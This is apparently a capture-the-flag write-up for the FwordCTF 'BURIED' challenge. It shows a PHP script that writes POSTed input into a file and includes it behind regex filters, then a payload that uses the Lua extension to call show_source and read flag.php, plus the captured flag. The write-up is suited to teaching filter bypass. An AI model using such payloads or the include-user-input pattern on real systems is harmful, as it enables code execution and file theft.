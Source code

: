 ### BURIED



Given the source code 

```php
<?php

show_source(__FILE__);


if (sizeof($_REQUEST)===1 && sizeof($_POST)===1){
    $cmd=$_POST['cmd'];    
    $a=array('!','#','%','&','\*','\+','\/',':','\?','@','\[','\]','\^','`','\{','\|','\}','~','[0-9]');
    if (isset($cmd)){
        if(preg_match('/.*show_source.*\(/i',$cmd)===0 && preg_match('/\"(\s)*show_source(\s)*\"(\s)*;/', $cmd)===0 ){
            if(preg_match_all('/\$([a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*)(\s)*=/', $cmd, $matches)<=1){
                if(preg_match('/\((.*)(!\.)\)/i', $cmd)===0 && substr_count($cmd, '.')<=1){
                    $exists=0;
                    foreach ($a as $key) {
                        if(preg_match("/(\.)*".$key."(\.)*/",$cmd)){
                            print($key);
                            $exists+=1;
                        }
                    }
                    if($exists===0){

                        if(!(preg_match('~(?:#|//|\/\*)[^\r\n]*|/\*.*?\*/~',$cmd))){
                        $file="./files/".rand().'.php';
                        file_put_contents($file,'<?php '.$cmd.' ?>');
                        include($file);

                    }else{
                        die("How dare u!");
                    }
                }else{
                    die("How dare u!");
                }

                }else{
                    die("How dare u!");
                }


            }else{
                die("How dare u!");
            }


        }else{
            die("How dare u!");
        }

    }else{
        die("How dare u!");
    }
}else{
    die("How dare u!");
}

?>

```



A lot of filters were put in there (comments,concatenation,special chars,multiples variables declaration ,...)

Let’s get more information via phpinfo.

You ll notice that most of the functions are disabled but there is one interesting thing which is ***Lua extension*** .

![image-20200908224433780](./lua.png)



Since you can’t execute ***show_source*** directly , register it to lua  using the  method ***registerCallback***

and here is the payload:

```php
$cmd=$lua = new Lua();
$lua->registerCallback("echo", "show_source");
$lua->eval(<<<CODE
      echo("flag.php");

CODE
);
```



You get the flag  **FwordCTF{lu4_Lu4_lUa_lua_I_still_ex1st_u_damn_h4ck3rs}**
